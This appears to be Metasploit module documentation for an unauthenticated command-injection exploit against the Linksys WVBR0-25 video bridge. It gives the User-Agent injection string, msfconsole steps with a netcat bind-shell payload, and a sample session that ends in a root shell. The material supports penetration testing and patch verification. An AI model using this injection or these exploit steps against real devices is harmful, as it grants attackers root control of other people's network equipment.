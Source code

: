 ## Vulnerable Application

  This module exploits a command injection vulnerability in the [Linksys WVBR0-25](https://www.att.com/help/manuals/directv/dvrs.html) wireless video bridge. A description of the exploited vulnerability is available in the Vulnerability Details section of [this advisory](http://www.zerodayinitiative.com/advisories/ZDI-17-973/).
  The latest confirmed vulnerable firmware version is 1.0.39. It may be possible to downgrade newer versions to a vulnerable version, but since firmware images are not available for download, this cannot be verified.

  There is no complete list of vulnerable firmware versions, however the check method can reliably detect whether a device is vulnerable. The check method browses to the root of the device's webserver with a User-Agent set to `"; printf "[random string]`. If the response contains an md5 hash of the random string, the device is vulnerable to command injection.

  Manual exploitation would equate to browsing to the URI `http://<ip>/` with the User-Agent header set to `"; command;`.

  Version 1.0.39 was confirmed vulnerable, and firmware 1.0.41 was released to fix the exploit.

## Verification Steps

  1. Make sure the device is running.
  2. Start msfconsole.
  3. Do: ```use exploit/linux/http/linksys_wvbr0_user_agent_exec_noauth```
  4. Do: ```set payload cmd/unix/bind_netcat```
  5. Do: ```set RHOST <ip>```
  6. Do: ```exploit```
  7. You should get a shell.

## Options

  **PAYLOAD**

  The `generic` and `netcat` payload types are valid.

## Scenarios

### Firmware 1.0.39

  The following is an example run getting a shell:

  ```
  msf > use exploit/linux/http/linksys_wvbr0_user_agent_exec_noauth 
  msf exploit(linksys_wvbr0_user_agent_exec_noauth) > set payload cmd/unix/bind_netcat 
  payload => cmd/unix/bind_netcat
  msf exploit(linksys_wvbr0_user_agent_exec_noauth) > set RHOST 10.0.0.104
  RHOST => 10.0.0.104
  msf exploit(linksys_wvbr0_user_agent_exec_noauth) > exploit

  [*] 10.0.0.104:80 - Trying to access the device ...
  [*] Started bind handler
  [*] 10.0.0.104:80 - Exploiting...
  [*] Command shell session 1 opened (10.0.0.109:40541 -> 10.0.0.104:4444) at 2017-12-21 17:09:54 -0600
  id

  uid=0(root) gid=0(root)
  ```
